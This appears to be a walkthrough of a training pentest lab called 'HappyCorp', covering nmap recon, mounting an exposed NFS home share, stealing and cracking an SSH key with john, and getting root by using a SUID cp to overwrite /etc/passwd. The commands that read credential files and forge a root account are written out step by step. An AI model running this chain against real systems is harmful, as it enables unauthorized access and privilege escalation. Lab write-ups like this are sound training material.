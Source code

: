 # HappyCorp (Creatigon Basic Pentest)

---

- Nmap recon

```
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
111/tcp  open  rpcbind 2-4 (RPC #100000)
2049/tcp open  nfs_acl 3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```sh
$ showmount -e $IP
# /home/karl *
$ sudo mount $IP:/home/karl /tmp/h
$ cd /tmp/h
$ cd .ssh # permission deined
$ ls -la
...
-rw-r--r--  1 karl karl   675 မတ်    5  2019 .profile
drwx------  2 karl karl  4096 မတ်    5  2019 .ssh
-rw-r--r--  1 karl karl   165 ဖေ   19 17:25 .wget-hsts
$ sudo useradd -M -u 1001 karl
$ sudo passwd karl
$ su karl
$ cd .ssh & cat id_rsa
# copy the id_rsa and enter ssh
# passphrase required
$ ./ssh2john.py id_rsa > forjohn
$ john forjohn --wordlist=rockyou.txt
# karl:sheep
# then enter ssh
```

- Inside machine with user, karl via ssh
- get linpeas.sh file in ssh tmp folder and run the script
- SUID

```
-rwsr-xr-x 1 root root 128K Feb 22  2017 /bin/cp
```

- first copy the `/etc/passwd` to `/tmp/passwd`
- in your attack machine or whatever create password hash with openssl

```sh
openssl passwd -1 -salt random_salt passwordtotype
```

- get the password
- edit the passwd file
  - copy the root (first line)
  - replace first word `root`, with your user name
  - replace `x` with the password created before, like in passwd file
  - copy the contents from passwd and create a file like `passwd_edit` in /tmp folder in ssh
- then copy the `passwd_edit` into `/etc/passwd`
- change the user as you named above and get the root access
